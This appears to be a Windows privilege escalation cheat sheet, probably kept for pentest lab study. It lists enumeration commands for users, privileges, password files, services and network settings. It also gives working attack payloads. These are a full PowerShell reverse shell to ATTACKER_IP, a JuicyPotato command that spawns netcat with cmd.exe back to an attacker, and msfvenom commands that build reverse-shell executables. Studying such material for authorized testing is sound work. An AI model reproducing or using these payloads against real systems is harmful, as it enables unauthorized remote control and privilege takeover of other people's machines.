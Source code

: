 # Windows Privilege Escalation - Cheat Sheet

{% hint style="warning" %}
Check if target si 32 or 64-bit with systeminfo -> System type

Reverse shell for 32bit is:

```
msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -a x86 --platform Windows -f exe -o shell.exe
```
{% endhint %}

### 1. System Information

```powershell
systeminfo                      # System info
wmic os get caption,version     # OS version
whoami                          # Current user
whoami /priv                    # Privileges of current user
whoami /groups                  # Group memberships
net users                       # List all users
net user <username>             # User details
net localgroup administrators   # Check admin group members
tasklist /v                     # Running processes
tasklist /svc                   # Processes with services
```

### 2. Searching for Sensitive Files

```powershell
dir /s /b *password* 2>nul       # Find files containing "password"
findstr /si password *.txt       # Search for passwords in text files
dir C:\Users /s /b | findstr /i "password"  # Search for password files in user directories
```

### 3. Permissions and User Privileges

```powershell
net share                       # Shared folders
net user <user>                 # User details
icacls C:\path\to\file        # Check file permissions
```

### 4. Scheduled Tasks & Services

```powershell
schtasks /query /fo LIST /v     # List scheduled tasks
Get-ScheduledTask | fl          # PowerShell alternative
sc query                        # List services
sc qc <service>                 # Check service config
```

### 5. Network & Firewall

```powershell
ipconfig /all                   # Network configuration
netstat -ano                    # Open network connections
route print                      # Routing table
Get-NetFirewallRule              # Firewall rules (PowerShell)
```

### 6. Logs & Event Viewer

```powershell
wevtutil qe Security /c:10 /f:text /rd:true  # Last 10 security logs
Get-EventLog -LogName Security -Newest 10   # PowerShell alternative
```

### 7. Common Service Paths & Registry Keys

```powershell
C:\ProgramData\
C:\Users\Public\
C:\Windows\System32\Tasks\
C:\Windows\System32\config\
C:\Windows\System32\drivers\etc\
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System
```

### 8. Reverse Shells

```powershell
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('ATTACKER_IP',ATTACKER_PORT);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"

#SeImpersonatePrivilege -> 32bit
juicypotato32.exe -l 1360 -p c:\windows\system32\cmd.exe -a "/c c:\Temp\nc.exe -e cmd.exe <IP> <PORT>" -t * -c {9B1F122C-2982-4e91-AA8B-E071D54F2A4D}
```

### 9. Exploitation & Enumeration Tools

reverse shell ->

```
msfvenom -p windows/x64/shell_reverse_tcp LPORT=4444 LHOST=192.168.45.207 -f exe -o shell.exe
```

winpeas ->

```powershell
wget https://github.com/peass-ng/PEASS-ng/releases/download/20250301-c97fb02a/winPEASany.exe -OutFile winPEASany.exe
.\winPEASany.exe  # Run WinPEAS
```
